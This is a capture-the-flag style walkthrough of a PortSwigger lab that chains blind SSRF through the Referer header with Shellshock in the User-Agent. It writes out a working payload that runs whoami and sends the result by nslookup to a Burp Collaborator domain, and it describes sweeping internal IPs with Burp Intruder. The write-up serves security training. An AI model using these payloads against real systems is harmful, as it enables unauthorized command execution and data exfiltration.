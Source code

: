 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d51f9c08-9fca-47d8-8bd8-cf7f57037dba)

## Solution :

Similar to the [previous lab](../Blind_SSRF_with_out-of-band_detection/README.md), the web application is the shop website and contains a Referer header that can be used to trigger arbitrary URL requests:

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a4408392-e99d-4822-ad9a-7255d3452459)


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/caafe340-8be0-4dc1-b21b-17909a081ad6)

Interestingly, the HTTP request there contains a user agent line indicating that it was done by the same browser I use. So changing the user agent to some random value and sending a request again, the request to Burp Collaborator mirrors it:

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3f2af30f-4937-4411-aa79-7baa8c7706d5)

So anything I put there is sent to to the analytics software.

### Build payload

The shellshock bug is a family of vulnerabilities in bash that enable an attacker to execute arbitrary system commands that should not be available. A common exploit is within the Common Gateway Interface (CGI) that receives a number of environment variables from the web server. If these variables are taken from an attacker controlled source, any command can be executed. Often, the user agent is one of these variables (for a nice summary, see [https://blog.cloudflare.com/inside-shellshock](https://blog.cloudflare.com/inside-shellshock/))

The shellshock is triggered by this sequence

```bash
() { ignored;};arbitrary command
```

In order to solve the lab and exfiltrate the username, the payload needs to

1. Get the username of the process running the script.  
   This is done by calling `whoami` and prepending the result to the Burp Collaborator subdomain
2. Trigger a DNS loogup with the result.  
   This is done with `nslookup`, which is usually located in `/usr/bin/nslookup`

```bash
() { ignored;};/usr/bin/nslookup $(whoami).k9nxehq4qtiwxsf8ekbjbnjyhs8yzmpae.oastify.com
```

I do not know the exact IP of the internal system, so I use Burp Intruder for this. The Referer-Header targets the internal server with

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/c9ed58dd-c46b-48ca-9a76-722af25d8b0f)

- Attack type: **Sniper**
- Payload: Numbers, 1 to 254, step 1

As it is a blind exploit, nothing shows up in Burp Intruder. The Burp Collaborator client is hit by a number of DNS requests containing the username

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d14cb447-1643-496a-acfe-66e4d05916b8)

Submit the solution in lab home page. 

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/46bba892-c861-410d-bb0a-f771267837a1)

LAb solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/5d731a18-38ec-4b72-b3a3-86534def7b5a)
